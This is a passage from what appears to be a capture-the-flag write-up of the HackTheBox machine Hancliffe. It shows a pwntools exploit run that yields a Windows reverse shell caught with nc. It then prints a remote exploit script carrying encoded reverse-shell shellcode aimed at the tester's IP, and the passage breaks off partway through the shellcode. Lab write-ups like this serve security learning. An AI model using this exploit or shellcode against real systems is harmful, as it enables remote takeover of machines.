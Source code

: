 I wasn’t able to get it to work running in x32dbg, but with the binary running naturally, it worked:

```

oxdf@hacky$ python3 sploit.py PORT=9920
[+] Opening connection to 10.1.1.163 on port 9920: Done
[*] Closed connection to 10.1.1.163 port 9920

```

At `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.1.1.163 49996
Microsoft Windows [Version 10.0.19044.1288]
(c) Microsoft Corporation. All rights reserved.

FLARE Fri 02/04/2022 18:59:01.48
Z:\hackthebox\hancliffe-10.10.11.115>

```

### Remote Exploit

I’ll update the connecting in the script to take both the IP and PORT as args. I’ll also replace the shellcode with my tun0 IP.

The final script is:

```

#!/usr/bin/env python3

from pwn import *

r = remote(args['IP'], args['PORT'])

# 10.10.14.6:443
shellcode =  b""
shellcode += b"\xb8\xcb\x04\x2d\xcb\xda\xd4\xd9\x74\x24\xf4"
shellcode += b"\x5b\x33\xc9\xb1\x52\x31\x43\x12\x03\x43\x12"
shellcode += b"\x83\x20\xf8\xcf\x3e\x4a\xe9\x92\xc1\xb2\xea"
shellcode += b"\xf2\x48\x57\xdb\x32\x2e\x1c\x4c\x83\x24\x70"
shellcode += b"\x61\x68\x68\x60\xf2\x1c\xa5\x87\xb3\xab\x93"
shellcode += b"\xa6\x44\x87\xe0\xa9\xc6\xda\x34\x09\xf6\x14"
shellcode += b"\x49\x48\x3f\x48\xa0\x18\xe8\x06\x17\x8c\x9d"
shellcode += b"\x53\xa4\x27\xed\x72\xac\xd4\xa6\x75\x9d\x4b"
shellcode += b"\xbc\x2f\x3d\x6a\x11\x44\x74\x74\x76\x61\xce"
shellcode += b"\x0f\x4c\x1d\xd1\xd9\x9c\xde\x7e\x24\x11\x2d"
shellcode += b"\x7e\x61\x96\xce\xf5\x9b\xe4\x73\x0e\x58\x96"
shellcode += b"\xaf\x9b\x7a\x30\x3b\x3b\xa6\xc0\xe8\xda\x2d"
shellcode += b"\xce\x45\xa8\x69\xd3\x58\x7d\x02\xef\xd1\x80"
shellcode += b"\xc4\x79\xa1\xa6\xc0\x22\x71\xc6\x51\x8f\xd4"
shellcode += b"\xf7\x81\x70\x88\x5d\xca\x9d\xdd\xef\x91\xc9"
shellcode += b"\x12\xc2\x29\x0a\x3d\x55\x5a\x38\xe2\xcd\xf4"
shellcode += b"\x70\x6b\xc8\x03\x76\x46\xac\x9b\x89\x69\xcd"
shellcode += b"\xb2\x4d\x3d\x9d\xac\x64\x3e\x76\x2c\x88\xeb"
shellcode += b"\xd9\x7c\x26\x44\x9a\x2c\x86\x34\x72\x26\x09"
shellcode += b"\x6a\x62\x49\xc3\x03\x09\xb0\x84\x21\xc4\xb4"
shellcode += b"\x52\x5e\xda\xc8\x5b\x25\x53\x2e\x31\x49\x32"
shellcode += b"\xf9\xae\xf0\x1f\x71\x4e\xfc\xb5\xfc\x50\x76"
shellcode += b"\x3a\x01\x1e\x7f\x37\x11\xf7\x8f\x02\x4b\x5e"
shellcode += b"\x8f\xb8\xe3\x3c\x02\x27\xf3\x4b\x3f\xf0\xa4"
```
